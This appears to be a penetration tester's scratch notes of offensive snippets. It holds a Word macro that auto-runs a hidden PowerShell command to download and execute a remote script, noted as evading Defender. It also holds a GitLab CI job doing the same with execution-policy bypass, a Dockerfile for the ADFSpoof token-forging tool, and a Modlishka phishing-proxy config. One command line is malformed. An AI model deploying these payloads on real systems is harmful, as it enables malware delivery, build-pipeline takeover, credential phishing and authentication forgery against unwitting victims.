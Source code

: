 defender does not catch on

```
' Macro
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.10.14.87/test.ps1') | IEX"
    Shell str, vbHide
End Sub
```

script to get comand exec

```
stages:
  - build

build-code-job:
  stage: build
  tags:
    - windows
    - powershell
  script:
    - cmd.exe /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.12/test.ps1')"
```

zabbix 

 https://github.com/Diefunction/ZabbixAPIAbuse and https://www.exploit-db.com/exploits/39937 and the metasploit exploit/multi/http/zabbix_script_exec



ADFSPOOF Docker

FROM python:3.8.0-buster

RUN apt update && apt install -y faketime
RUN git clone https://github.com/dmb2168/cryptography.git && cd cryptography && pip install -e .
RUN git clone https://github.com/mandiant/ADFSpoof.git && cd ADFSpoof && pip install -r requirements.txt

WORKDIR /ADFSpoof

Drop that into a file called Dockerfile and run
docker build . -t adfspoof

to create adfspoof image. Launch the container and run bash in it with
docker -it --rm -v $(pwd):/keys adfspoof /bin/bash

Then you just run python3 ADFSpoof.py with faketime inside the container with your secret files in /keys

timestamp

┌──(root㉿kali)-[~]
└─# date -d @proxychains ldapsearch -LLL -x -H ldap://192.168.20.10 -b '' -s base '(objectclass=*)' | grep -i currentTime | awk -F\: {'print $2'} | awk -F\. {'print $1'} | sed 's/^ *//g'| awk '{$NF=""}1'

modlishka json

```
└─# cat modlishka.json      
{
  "proxyDomain": "00security.com",
  "listeningAddress": "10.x.x.x",

  "target": "spy.0x0security.com",
  "targetResources": "",
  "targetRules": "",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": true,
  "log": "**requests.log"**,           <--------------------------------------
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```